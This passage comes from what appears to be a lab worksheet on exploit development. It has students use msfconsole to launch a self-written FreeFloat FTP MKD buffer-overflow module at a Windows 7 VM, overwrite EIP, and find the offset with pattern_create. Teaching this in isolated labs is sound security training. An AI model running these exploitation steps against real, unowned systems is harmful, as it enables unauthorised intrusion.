 ==VM: On the Windows 7 VM (victim/debugger)==

==action: Reopen the program and restart the service in OllyDBG. Alternatively, press Ctrl + F2==. 

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Start msfconsole, and launch your new exploit:==

```bash
msfconsole
```

```bash
msf > use exploit/windows/ftp/FreeFloatMKDoverflow
```

```bash
msf (FreeFloatMKDoverflow) > set RHOST ==edit:Win7-IP-address==
```

```bash
msf (FreeFloatMKDoverflow) > set LHOST ==edit:Kali-IP-address==
```

```bash
msf (FreeFloatMKDoverflow) > exploit
```

> Note: If there is a problem loading your new exploit, scroll up in msfconsole's output to read any error messages, then fix any code mistakes and restart msfconsole and try the above again.

==VM: On the Windows 7 VM (victim/debugger)==

If things go well, you will have changed EIP to 0x41414141 (AAAA), and caused an access violation.

![ollyexceptionSS.png][image-10]
*OllyDbg access violation shown in the status bar*

## Finding the offset {#finding-the-offset}

==VM: On the Kali Linux VM (attacker/exploit development)==

Your next step is to determine the offset within the input that overwrites the EIP: just how many As would it take to overwrite EIP?

There are many ways you could determine the offset, one of which is to use Metasploit's **pattern_create** feature.

==action: Edit the above code==, so that bad is set to `pattern_create(500)`, rather than a sequence of As.

`pattern_create(length)` generates a special pattern that can be used to calculate the offset, based on having any section of the pattern. Your exploit will now generate the special pattern and send it as the malicious input to the program. The aim is to use this pattern to calculate the length of the offset before the EIP overwrite occurs.

==VM: On the Windows 7 VM (victim/debugger)==

==action: Restart the service in OllyDBG==.

==VM: On the Kali Linux VM (attacker/exploit development)==


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-10.png
[image-11]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-11.png
[image-12]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-12.png
[image-13]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-13.png
[image-14]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-14.png
